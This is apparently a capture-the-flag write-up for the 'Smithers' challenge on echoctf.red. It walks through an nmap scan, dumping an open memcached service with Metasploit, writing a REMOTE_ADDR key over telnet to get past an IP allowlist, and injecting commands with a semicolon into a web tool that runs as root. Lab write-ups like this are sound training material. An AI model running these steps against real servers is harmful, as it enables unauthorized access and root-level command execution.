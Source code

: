 ```yaml
---
layout: post
title:  "Smithers"
date:   2024-07-18 17:42:56 +0200
categories: ctf
---
```

![Smithers](/assets/_smithers_0f5264ff08434e25b0eec8db30373c63.png)

[Link to target](https://echoctf.red/target/5)

## Introduction
This post details the process of solving the "Smithers" challenge on echoctf.red.

## Enumeration Phase

### Nmap Scan
I start the reconnaissance with nmap:

```
PORT      STATE SERVICE   VERSION
10888/tcp open  http      nginx
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Network Tools
11211/tcp open  memcached Memcached 1.5.12 (uptime 224 seconds)
```

### Web Server on Port 10888
There is a web server running on port 10888:
![Webserver](/assets/webserver.png)

It mentions that these utilities are only available to authorized IP addresses.

### Extracting Information from Memcached with Metasploit
I use Metasploit to extract information from the memcached service:

```
msf6 > use auxiliary/gather/memcached_extractor

msf6 auxiliary(gather/memcached_extractor) > set rhosts 10.0.100.142 
rhosts => 10.0.100.142
msf6 auxiliary(gather/memcached_extractor) > exploit

[+] 10.0.100.142:11211    - Found 1 keys

Keys/Values Found for 10.0.100.142:11211
========================================

 Key     Value
 ---     -----
 ETSCTF  "VALUE ETSCTF 0 39\r\nETSCTF_<REDACTED>\r\nEND\r\n"

```

A flag is found in the memcached service.

## Exploitation Phase

### Using Telnet to Modify Memcached
The key is to store my IP address in the memcached service as `REMOTE_ADDR`. After some research, I use telnet to connect and store my IP address:

```
telnet 10.0.100.142 11211
Trying 10.0.100.142...
Connected to 10.0.100.142.
Escape character is '^]'.
add REMOTE_ADDR 0 0 10
<My IP>
STORED
```


### Accessing the Web Server
Once my address is stored, I can access the web server, which presents a command line interface:
![Webserver After](/assets/webserver_after.png)

Two flags are visible. Using a semicolon (`;`), I can run other commands and see that it runs as root. By executing:

```
grep -r 'ETSCTF' /
``` 

All flags are found.
